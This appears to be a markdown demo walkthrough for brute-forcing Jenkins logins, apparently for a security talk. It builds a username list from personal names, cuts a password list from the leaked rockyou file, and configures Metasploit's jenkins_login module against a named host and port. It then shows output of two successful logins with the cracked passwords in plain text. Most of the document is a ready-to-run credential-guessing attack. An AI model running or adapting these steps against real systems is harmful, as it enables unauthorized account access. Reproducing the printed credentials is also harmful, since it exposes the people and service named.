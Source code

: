 # Jenkins Bruteforce Login
Getting access via Social Engineering or Passwordcracking is the first attempt.

## Prepare Usernamelist

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk/username-list-generator
rm output.txt user.txt
nano user.txt
```

put the names into nano.
Dont take all names to not break too much bruteforce into
```
Jeffrey van der Linden
Kay Meyer
Robert Bartsch
Ricardo Pope
```

```bash
python3 userlistcreator.py

mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

## Prepare Passwordlist
Let's use the end of rockyoulist as that contains the sophisticated passwords
It contains 14344392 leaked passwords
Rockyou.txt is a set of compromised passwords from the social media application developer also known as RockYou. It developed widgets for the Myspace application. In December 2009, the company experienced a data breach resulting in the exposure of more than 32 million user accounts. It was mainly because of the company’s policy of storing the passwords in cleartext.

```bash
cd /root/demotalk/jenkinsBrute/
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
```

## Login Scan Module
If we want to access Jenkins as a user, we need to find a bit more information of login options.

#### Get Login URL
There are typically two login-URLs in Jenkins-world
* `/j_acegi_security_check`
* `/j_spring_security_check`
* or something the Administrator configured (like PingAccess or so)

Let's use Burpsuite to find out details.

### Prepare Options
Now that we know how to login, we can use metasploit to brute force login.
The exploit must be configured.

```bash
msfconsole

use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 8080
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
set STOP_ON_SUCCESS true

exploit
```
There will be two successful attempts

```bash
[+] 34.159.77.191:8080 - Login Successful: Robert.Bartsch:!@#$%1234pacr1234!@#$%
[+] 34.159.77.191:8080 - Login Successful: Jeffrey_van_d_Linden:!@#$%67890QAZwsxh
```
